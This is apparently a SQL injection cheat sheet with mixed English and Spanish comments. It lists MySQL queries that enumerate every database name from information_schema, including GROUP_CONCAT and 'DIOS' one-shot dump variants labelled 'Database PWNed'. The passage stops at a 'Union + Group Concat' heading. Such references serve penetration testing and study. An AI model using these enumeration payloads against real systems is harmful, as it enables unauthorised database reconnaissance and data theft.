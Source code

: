 # SQLi: schema, schemata & DIOS

## Fz3r0 SQLi: `schema` mini bible

````sql
## Schema Name AKA Databases Names Dump
select schema_name from information_schema.schemata;

---

## Group Concat Basic Query
SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata;

## Limitando a 1 en caso que solo deje arrojar un resultado
SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata limit 0,1;

---

## Concat Basic Query
SELECT concat(schema_name) FROM information_schema.schemata;

## Mini DIOS: DB Enum (schema enum)
SELECT concat('Database PWNed : ',(schema_name)) FROM information_schema.schemata;

---
````

## `schema name` from `information schema`

### Query basic

````sql
## Schema Name AKA Databases Names Dump
select schema_name from information_schema.schemata;
````

---

### Group Concat

#### Basic

````sql
## Group Concat Basic Query
SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata;

## Limitando a 1 en caso que solo deje arrojar un resultado
SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata limit 0,1;
````

#### Variantes

````sql
## Agregando un string para separador en forma de ':'
SELECT GROUP_CONCAT(schema_name SEPARATOR ' : ') FROM information_schema.schemata;

## Mini DIOS
SELECT GROUP_CONCAT('Database PWNed: ',schema_name) FROM information_schema.schemata;
````

---

### Concat

#### Basic

````sql
## Concat Basic Query
SELECT concat(schema_name) FROM information_schema.schemata;
````

#### Variantes

````sql
## Agregando un string para separador en forma de ':'
SELECT concat(schema_name, ' : ') FROM information_schema.schemata;

## Mini DIOS: DB Enum (schema enum)
SELECT concat('Database PWNed : ',(schema_name)) FROM information_schema.schemata;
````

---

### Union + Group Concat
